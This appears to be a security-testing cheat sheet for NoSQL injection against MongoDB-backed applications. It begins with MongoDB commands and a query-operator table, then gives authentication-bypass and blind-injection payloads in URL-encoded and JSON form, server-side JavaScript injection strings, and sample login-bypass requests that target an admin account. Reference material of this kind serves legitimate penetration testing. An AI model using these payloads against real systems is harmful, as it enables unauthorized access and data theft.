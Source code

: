MongoDB Usage
Connect to MongoDB: mongosh mongodb://127.0.0.1:27017
List databases: show databases
List collections: show collections
Insert data: db.collection.insertOne({...})
Insert lots of data: db.apples.insertMany([{...},{...},...])
Selecting data: db.collection.find({...})
Selecting one piece of data: db.collection.findOne({...})
Update (one) document: db.collection.updateOne({...}, {...})
Update multiple documents: db.collection.updateMany({...}, {...})
Delete document(s): db.apples.remove({...})
Query Operators
Type	Operator	Description	Example
Comparison	$eq	Matches values which are equal to a specified value	type: {$eq: "Pink Lady"}
Comparison	$gt	Matches values which are greater than a specified value	price: {$gt: 0.30}
Comparison	$gte	Matches values which are greater than or equal to a specified value	price: {$gte: 0.50}
Comparison	$in	Matches values which exist in the specified array	type: {$in: ["Granny Smith", "Pink Lady"]}
Comparison	$lt	Matches values which are less than a specified value	price: {$lt: 0.60}
Comparison	$lte	Matches values which are less than or equal to a specified value	price: {$lte: 0.75}
Comparison	$nin	Matches values which are not in the specified array	type: {$nin: ["Golden Delicious", "Granny Smith"]}
Logical	$and	Matches documents which meet the conditions of both specified queries	$and: [{type: 'Granny Smith'}, {price: 0.65}]
Logical	$not	Matches documents which do not meet the conditions of a specified query	type: {$not: {$eq: "Granny Smith"}}
Logical	$nor	Matches documents which do not meet the conditions of any of the specified queries	$nor: [{type: 'Granny Smith'}, {price: 0.79}]
Logical	$or	Matches documents which meet the conditions of one of the specified queries	$or: [{type: 'Granny Smith'}, {price: 0.79}]
Evaluation	$mod	Matches values which divided by a specific divisor have the specified remainder	price: {$mod: [4, 0]}
Evaluation	$regex	Matches values which match a specified RegEx	type: {$regex: /^G.*/}
Evaluation	$where	Matches documents which satisfy a JavaScript expression	$where: 'this.type.length === 9'
Authentication Bypass / Data Exfiltration Payloads:
URL-Encoded
param[$ne]=x
param[$gt]=
param[$gte]=
param[$lt]=~
param[$lte]=~
param[$regex]=.*
JSON
{param: {$ne: 'x'}}
{param: {$gt: ''}}
{param: {$gte: ''}}
{param: {$lt: '~'}}
{param: {$lte: '~'}}
{param: {$regex: '.*'}}
{param: {$nin: []}}
Blind NoSQLi Payloads:
URL-Encoded
param[$regex]=^XYZ.*$
JSON
{param: {$regex: '^XYZ.*$}}
Server-Side JavaScript Injection Payloads:
' || true || ''=='
" || true || ""=="
This cheat sheet contains a (non-comprehensive) list of payloads you may use when testing an application for NoSQL injection vulnerabilities. The most important qualities for finding vulnerabilities are creativity and the ability to adapt, so it is possible that these payloads will not work in your specific scenario, but something else does.

Some other resources you may want to refer to may be:


Some other payloads that would work are:
```
email=admin%40mangomail.com&password[$ne]=x: This assumes we know the admin's email and we wanted to target them directly
email[$gt]=&password[$gt]=: Any string is 'greater than' an empty string
email[$gte]=&password[$gte]=: Same logic as above
```

PayloadAllTheThings - NoSQL Injection
HackTricks - NoSQL Injection
NullSweep - NoSQL Injection Cheatsheet
